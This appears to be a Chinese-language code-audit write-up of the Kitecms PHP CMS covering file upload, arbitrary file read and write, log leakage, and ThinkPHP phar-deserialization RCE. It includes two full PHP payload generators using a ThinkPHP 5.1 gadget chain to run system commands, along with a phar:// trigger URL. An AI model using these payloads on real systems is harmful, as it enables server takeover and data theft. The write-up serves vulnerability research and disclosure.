# PHP代码审计之Kitecms - 先知社区

PHP代码审计之Kitecms

- - -

# 环境搭建:

使用phpstudy进行搭建环境，然后进入install目录。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122172743-639018f2-8919-1.png)

然后输入数据库名和密码。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122172753-69bccde2-8919-1.png)

成功搭建好环境，然后进入后台页面。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122172803-6f7ae246-8919-1.png)

# 代码审计：

## 1.文件上传漏洞

首先进入配置-上传，然后发现这里有图片限制类型。  
我们继续对这里的文件上传进行代码分析。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122172812-7522bbec-8919-1.png)

接着看这里的上传后缀配置，这里路由中的 .html 后缀是thinkphp中开启了伪静态设置，实际上还是调用了 config() 方法。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122172826-7d0e727e-8919-1.png)

这里通过Ajax判断前端的操作，通过 Request::param() 方法统一接收所有上传的参数.

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122172835-82e43fd0-8919-1.png)

从数据表中可以看出我们的数据已经写进去了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122172843-87b46f44-8919-1.png)

我们通过抓包分析，发现后台的所有上传功能点都调用了 uploadFile() 方法，Tp的  
话上传一般上传文件都会使用 Request::file 来进行接收。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122172851-8c78ef8c-8919-1.png)

首先获取了config/site.php文件内容，并将两个数据中数组的内容通过array\_merge合并。然后获取了我们上面数据库中插入的内容，最后将配置文件与数据库中的内容进行合并

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122172906-95170804-8919-1.png)

刚开始发现框架还是具有一定的安全性的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122172917-9bc661ae-8919-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122172927-a1ad6ba8-8919-1.png)

最后就是upload()方法，上面的 filetype 是通过 Content-Type 中获取上传类型的，通过 check() 进行后缀以及大小的检测，其实在调试的过程中还发现了Tp自带的检测，但不影响漏洞利用。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122172935-a646abfc-8919-1.png)

最后调用Local下 upload() 实现文件上传。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122172943-ab03184c-8919-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122172954-b1bb21c0-8919-1.png)

## 漏洞复现：

这里的文件上传利用起来其实很简单，分为两步。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173003-b74f0ed0-8919-1.png)

第一步通过配置将允许上传文件后缀写入数据库

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173012-bca91a92-8919-1.png)

第二步通过后台任意上传点上传后缀.php文件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173022-c264e6dc-8919-1.png)

## 2.任意文件写入漏洞

发现了 file\_put\_contents() 函数，瞅了眼路径是admin模块下的也就是后  
台功能，跟进该处看看代码是如何构造的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173031-c7eb39c6-8919-1.png)

在代码中发现html参数是可控的，也就是 file\_put\_contents() 写入的内容是可控  
的，前面的htmlspecialchars\_decode()是将实体编码后的特殊字符还原，然后在继续看$rootpath参数，向上回溯该参数，在这里最后拼接 $path 参数是通过 param() 传过来的，所以这里 $path 可控。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173039-cc8c898a-8919-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173046-d0ed2c14-8919-1.png)

## 漏洞复现：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173056-d695d350-8919-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173102-da8765b4-8919-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173111-dfa3f1f2-8919-1.png)

## 3.任意文件读取漏洞

全局搜索ile\_get\_contents() 方法，发现和上面的 file\_put\_contents() 在同一个方法中。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173123-e6919f8c-8919-1.png)

这里可以看到，如果传参方式不是post()则会走else，去直接读取$rootpath，而我们通过上面的分析知道这里的 $rootpath 中的 $path 是可控的，所以这里可以造成任意文件读取。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173131-ebd78718-8919-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173142-f1ee7cc4-8919-1.png)

## 漏洞复现：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173150-f73400f0-8919-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173200-fcd1ab0c-8919-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173208-01b2a0ae-891a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173217-06bf7cfc-891a-1.png)

## 4.phar反序列化

PHAR反序列化是指攻击者利用PHP Archive（PHAR）文件格式的反序列化漏洞，来执行恶意代码或者获取敏感数据。PHAR是PHP的一种自包含的归档文件格式，其可以存储多个PHP脚本文件和相关资源文件，并且可以被加载和执行。由于PHAR文件格式的缺陷，攻击者可以通过构造恶意数据，触发被反序列化的对象的构造函数并执行任意代码。因此，针对PHAR反序列化漏洞的攻击已经成为了网络安全领域中的一个热门话题。为了防止此类攻击，开发人员需要更新代码以修复漏洞，并加强输入数据的验证和过滤。

## 漏洞危害

攻击者可能利用PHAR反序列化漏洞来实现以下攻击：

1.  远程代码执行：攻击者可以利用反序列化漏洞来远程执行任意PHP代码，并获取服务器完全控制权。
2.  信息泄露：攻击者可以利用反序列化漏洞来读取服务器上的敏感数据，如数据库凭据、身份验证密码等。
3.  篡改数据：攻击者可以利用反序列化漏洞改变服务器上的数据，如篡改网站内容、篡改数据库数据等。  
    为了避免成为PHAR反序列化攻击的受害者，我们可以采用以下措施：
4.  及时更新代码中利用PHAR的库或插件，以修复已知的漏洞。
5.  对用户输入的数据进行过滤和验证，确保输入的数据不包含恶意代码。
6.  禁用不必要的反序列化对象，或者对反序列化对象进行严格控制。
7.  使用PHP的反序列化检测工具，检查潜在的远程代码执行漏洞。  
    然后我们接着往下看：  
    可以很直观的看到这里的$dir参数完全可控，并且直接带入到 is\_dir() 。条件已经满足，接下来只要  
    在后台上传我们的phar文件即可。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173334-351fc728-891a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173344-3af63a1a-891a-1.png)

利用链使用了Tp5.1反序列化利用链(后续的阶段会对Tp反序列化利用链进行分析)，我们将该文件生成phar文件。

```plain
<?php
namespace think\process\pipes {
  class Windows
 {
    private $files;
    public function __construct($files)
   {
      $this->files = [$files];
   }
 }
}
namespace think\model\concern {
  trait Conversion
 {
 }
  trait Attribute
 {
    private $data;
    private $withAttr = ["v" => "system"];
    public function get()
   {
      $this->data = ["v" => "calc"];
   }
 }
这里生成我们的pahr文件，如果生成时报错了可以将php.ini配置文件中的phar.readonly选项设置为
Off就可以成功生成了。

}
namespace think {
  abstract class Model
 {
    use model\concern\Attribute;
    use model\concern\Conversion;
 }
}
namespace think\model{
  use think\Model;
  class Pivot extends Model
 {
    public function __construct()
   {
      $this->get();
   }
 }
}
namespace {
  $conver = new think\model\Pivot();
  $a = new think\process\pipes\Windows($conver);
  @unlink("phar.phar");
  $phar = new Phar("phar.phar"); //后缀名必须为phar
  $phar->startBuffering();
  $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>"); //设置stub
  $phar->setMetadata($a); //将自定义的meta-data存入manifest
  $phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
  $phar->stopBuffering();
}
?>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173429-5595c19c-891a-1.png)  
可以发现 metadata 部分已经成功序列化并写到文件中。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173444-5ec0c3f2-891a-1.png)

紧接着下面的 scanFiles() 方法中的 $dir 参数也是完全可控的，所以该处也是可以利用的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173500-68054366-891a-1.png)

## 漏洞复现：

如上我们生成了phar.phar文件，我们将文件后缀改为.jpg就可以成功将文件上传。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173507-6c663654-891a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173515-71028f0a-891a-1.png)

由于phar反序列化是不限制后缀类型的，只要可以使用phar协议即可解析，所以我们直接利用上面的漏洞点进行尝试。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173523-761f474e-891a-1.png)

## 5.日志敏感信息泄露

查看Thinkphp日志配置文件(/config/log.php)，发现默认开启了日志记录

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173532-7b1d7234-891a-1.png)

关键的点在：该系统在config/app.php中开启了调试模式

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173544-828439ea-891a-1.png)

当日志写入开启且 app\_debug 调试模式开启时，我们的操作、SQL执行语句、流量等信息都会被记录在日志文件中。所以在当上述条件满足时就会通过日志文件造成信息泄露。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173553-8789da62-891a-1.png)

## 漏洞复现：

我们访问/runtime/log目录  
然后使用burpsuite进行请求：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173559-8b55c87c-891a-1.png)

发现修改日期就可以获取到不同日子的log信息。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173606-8f89d5dc-891a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173619-976d7858-891a-1.png)

## 6.任意文件上传第2处

进入application/member/controller/Upload.php，发现前台注册个用户后也有个文件上传的功能，然后对其代码进行分析。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173627-9c05d932-891a-1.png)

发现这个CMS在处理文件上传的时候，基本都是这三行代码进行控制：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173634-a04cb29a-891a-1.png)

跟进一下upload方法就会发现。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173642-a4d47082-891a-1.png)

## 漏洞复现：

进入会员中心，然后进行发布信息，发现有2处上传点。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173648-a8bffa86-891a-1.png)

然后修改png文件为.php,成功进行上传。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173655-acbfe7ea-891a-1.png)

接着成功获取到phpinfo信息。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173702-b0b6d1a6-891a-1.png)

## 7.phar rce2

全局搜索is\_dir（）方法，然后发现scanfile()方法调用了这个方法。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173711-b67214d4-891a-1.png)

发现在get请求中传入$dir，然后直接一个is\_dir成功phar反序列化。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173718-ba918310-891a-1.png)

## 漏洞复现：

```plain
<?php
namespace think\process\pipes {
    class Windows
    {
        private $files;
        public function __construct($files)
        {
            $this->files = [$files];
        }
    }
}

namespace think\model\concern {
    trait Conversion
    {
    }

    trait Attribute
    {
        private $data;
        private $withAttr = ["lin" => "system"];

        public function get()
        {
            $this->data = ["lin" => "whoami"];
        }
    }
}

namespace think {
    abstract class Model
    {
        use model\concern\Attribute;
        use model\concern\Conversion;
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model
    {
        public function __construct()
        {
            $this->get();
        }
    }
}

namespace {

    $conver = new think\model\Pivot();
    $a = new think\process\pipes\Windows($conver);


    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>"); //设置stub
    $phar->setMetadata($a); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
    $phar->stopBuffering();
}
?>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173737-c5d2430e-891a-1.png)

改后缀为png然后上传：  
访问：[http://127.0.0.1/admin/admin/scanFilesForTree?dir=phar://./upload/20230308/1c57fd5e8abbd8ce9e6715c28227a95f.png](http://127.0.0.1/admin/admin/scanFilesForTree?dir=phar://./upload/20230308/1c57fd5e8abbd8ce9e6715c28227a95f.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173744-ca32b8de-891a-1.png)

## 8.phar rce3

进入application/admin/controller/Upload.php，发现uploadFile方法。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173752-ced5770a-891a-1.png)

跟进$uploadObj->upload方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173759-d29cff0c-891a-1.png)

发现$this->uploadHandler是这样来的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173805-d6504ed8-891a-1.png)

默认是local，当然这个配置也可以后台更改。  
因此跟进一下app\\common\\model\\upload\\driver\\local的upload方法，位于application/common/model/upload/driver/Local.php：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173812-da6fa572-891a-1.png)

直直接一个is\_dir，可以phar。至于$uploadPath则是从数据库中直接取出来的，这个可以在后台控制，所以可以成功phar。

## 漏洞复现：

先后台修改一下配置。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173819-df09fb5a-891a-1.png)

然后修改使得$this->config\['upload\_path'\]为phar。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173829-e4cf3118-891a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122173842-ec464774-891a-1.png)

REF：  
[https://blog.csdn.net/rfrder/article/details/117818074](https://blog.csdn.net/rfrder/article/details/117818074)  
[https://blog.51cto.com/u\_15847702/5800894](https://blog.51cto.com/u_15847702/5800894)  
[https://forum.butian.net/share/1063](https://forum.butian.net/share/1063)
